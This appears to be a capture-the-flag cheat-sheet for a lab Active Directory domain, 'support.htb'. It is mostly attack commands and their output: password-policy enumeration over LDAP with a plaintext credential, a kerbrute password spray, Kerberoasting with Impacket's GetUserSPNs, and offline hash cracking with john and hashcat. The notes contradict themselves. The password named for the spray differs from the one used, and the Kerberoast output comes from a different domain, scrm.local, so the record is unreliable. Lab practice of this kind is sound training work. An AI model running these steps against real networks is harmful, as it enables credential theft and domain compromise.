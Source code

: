 # Password policy enumeration
```$ python enum_policy.py support.htb 'support\support' 'Ironside437pleasure401Watchful'```
can we brute?
```
##################################
# Domain name: DC=support,DC=htb #
##################################
-------------------------------
[b'[LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb;0]']
lockoutThreshold: [b'0']
lockoutDuration: [b'-18000000000']
minPwdAge: [b'-864000000000']
maxPwdAge: [b'-9223372036854775808']
minPwdLength: [b'7']
modifiedCount: [b'1']
```
# Password Spray
Trying 'Aa123456' against all domain users.
```$ kerbrute passwordspray -d support.htb --dc 10.10.11.174 loot/users.txt 'Ironside437pleasure401Watchful'```

```loot/users.txt```
```
Administrator
Guest
krbtgt
ldap
support
ford.victoria
```
# Kerberoasting
SPN set on a user? we can ask the KDC for a TGS that contains their password and crack it offline 

```$ python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip 10.10.11.174 'support.htb/support:Ironside437pleasure401Watchful'```

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
Cracking the hash:
```
$ john kerberoastables.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```
hashcat -a 0 -m 19600 kerberoastable.txt /usr/share/wordlists/rockyou.txt
# -m flags
  19600 | Kerberos 5, etype 17, TGS-REP
  19700 | Kerberos 5, etype 18, TGS-REP
  13100 | Kerberos 5, etype 23, TGS-REP
```
